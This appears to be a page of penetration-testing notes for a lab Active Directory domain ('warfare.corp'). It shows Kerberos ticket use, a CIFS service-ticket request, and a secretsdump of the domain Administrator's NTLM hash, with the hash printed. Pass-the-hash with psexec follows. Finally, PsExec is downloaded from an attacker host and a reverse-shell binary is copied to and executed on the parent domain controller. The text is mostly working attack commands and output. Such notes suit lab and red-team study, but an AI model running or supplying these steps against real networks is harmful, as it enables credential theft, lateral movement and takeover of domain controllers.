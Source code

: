 

Check the tickets in the session

```
klist
```

or if we used ticketer add ccache file to var

{% code overflow="wrap" %}
```bash
export KRB5CCNAME=corpmngr.ccache

# get Service Ticket
impacket-getST -spn 'CIFS/dc01.warfare.corp' -k -no-pass child.warfare.corp/corpmngr -debug
```
{% endcode %}

{% code overflow="wrap" %}
```bash
export KRB5CCNAME=corpmngr@CIFS_dc01.warfare.corp@WARFARE.CORP.ccache

impacket-secretsdump -k -no-pass dc01.warfare.corp -just-dc-user 'warfare\Administrator' -debug

# output 
[+] Decrypting hash for user: CN=Administrator,CN=Users,DC=warfare,DC=corp
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a2f7b77b62cd97161e18be2ffcfdfd60:::
```
{% endcode %}

PsExec with LM hash

{% code overflow="wrap" %}
```bash
impacket-psexec 'warfare/Administrator@dc01.warfare.corp' -hashes aad3b435b51404eeaad3b435b51404ee:a2f7b77b62cd97161e18be2ffcfdfd60
```
{% endcode %}





And now use it to access to Parent Domain Controller

Transfer the PsExec.exe to the ticketed session.&#x20;

```powershell
iwr http://$ATT_IP:PORT/PsExec.exe -OutFile C:\Users\..\ps.exe
```

We probably already are in PsExec session and we cannot make 2 session in 1. But to obatin a shell to Parent DC we can copy another RevShell to Parent DC.

```powershell
copy rev2.exe \\$PARENT_DC_NAME\c$
```

And now with PsExec we will execute the Rev2 to make a connection with Parent DC

```powershell
ps.exe -accepteula -d \\$PARENT_DC_NAME cmd /c "C:\Rev2.exe" 
```
